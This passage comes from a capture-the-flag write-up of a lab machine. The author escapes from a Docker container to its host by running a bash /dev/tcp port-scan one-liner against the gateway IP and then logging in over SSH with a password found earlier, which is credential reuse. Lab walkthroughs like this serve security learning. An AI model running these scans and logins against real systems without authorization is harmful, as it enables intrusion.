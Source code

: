 ... telling me I was actually in a docker container. I tried using https://github.com/stealthcopter/deepce, but it didn't seem to find anything. After doing some manual enumeration, I noticed that my container had an internal IP. 

```bash
root@3a453ab39d3d:/backend# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 1700  bytes 311076 (303.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1362  bytes 598003 (583.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

I had a thought that since the `172.19.0.2` was the docker container IP that there might be something at the `172.19.0.1` address. Since I didn't have `nmap` or `nc` in the container, I opted to try and use `bash` to do a simple port scan on that IP.

I found this resource https://catonmat.net/tcp-port-scanner-in-bash to help me craft my port scanner.

```bash
for port in {1..1000}; do timeout 1 echo </dev/tcp/172.19.0.1/$port && echo "port $port is open" || echo "port $port is closed"; done;
```

I saw that most of the ports had `Connection refused`, but I did get the output `port 22 is open`, meaning I could likely `ssh` into the host at `172.19.0.1`. I hadn't found any passwords or other potential credentials in the container, so I decided to try the following with `augustus` as a user and the password `superadministrator` I had found earlier.

```bash
ssh augustus@172.19.0.1

The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ whoami
augustus
```

